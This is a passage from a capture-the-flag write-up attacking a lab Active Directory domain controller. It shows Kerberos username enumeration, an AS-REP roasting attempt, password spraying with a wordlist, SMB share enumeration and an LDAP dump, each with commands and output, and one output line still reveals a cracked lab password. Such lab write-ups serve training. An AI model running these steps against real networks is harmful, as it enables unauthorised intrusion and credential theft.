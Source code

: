 the __"/db-config.bak"__ has some weird credentials (servername:db.cooctus.corp user:C00ctusAdm1n, pass:REDACTED)for an hypothetical db login.

At this point, the last thing to do is to use the nicknames, insert in a .txt and try it against Kerberos:
```bash
kerbrute userenum -d COOCTUS --dc 10.10.226.144 userlist

2024/01/05 14:50:44 >  [+] VALID USERNAME:       varg@COOCTUS
2024/01/05 14:50:44 >  [+] VALID USERNAME:       cryillic@COOCTUS
```
There are 2 valid usernames we try __"GetNPUsers.py"__:
```bash
GetNPUsers.py COOCTUS.CORP/  -usersfile userlist

[-] User cryillic doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User varg doesn\'t have UF_DONT_REQUIRE_PREAUTH set
```
We can also try some password spraying with __"CrackMapExec"__:
```bash
crackmapexec smb 10.10.226.144  -u 'cryillic' -p /usr/share/wordlists/rockyou.txt

[+] COOCTUS.CORP\cryillic:REDACTED
```
After a while, the password spraying works on cryillic but it doesn't on varg.

We proceed by enumerating the shares:
```bash
crackmapexec smb 10.10.94.232  -u 'cryillic' -p 'REDACTED' --shares

SMB         10.10.94.232    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.94.232    445    DC               [+] COOCTUS.CORP\cryillic:qwerty 
SMB         10.10.94.232    445    DC               [+] Enumerated shares
SMB         10.10.94.232    445    DC               Share           Permissions     Remark
SMB         10.10.94.232    445    DC               -----           -----------     ------
SMB         10.10.94.232    445    DC               ADMIN$                          Remote Admin
SMB         10.10.94.232    445    DC               C$                              Default share
SMB         10.10.94.232    445    DC               Home                            
SMB         10.10.94.232    445    DC               IPC$            READ            Remote IPC
SMB         10.10.94.232    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.94.232    445    DC               SYSVOL          READ            Logon server share
```
Nothing to see.

If we want have more information on the target DC we can use the cryillic's credentials against LDAP with __"ldapdomaindump"__:
```bash
ldapdomaindump 10.10.94.232 -u 'COOCTUS\cryillic' --authtype SIMPLE --no-json --no-grep -o ~/Desktop/tryhackme/crocc/Output
```
Output folder will contains several .htms with more information, the most interesting is __"domain_users_by_group.html"__ which it contains all users in DC and password-reset has this suspicious flag __"TRUSTED_TO_AUTH_FOR_DELEGATION"__ but we investigate later
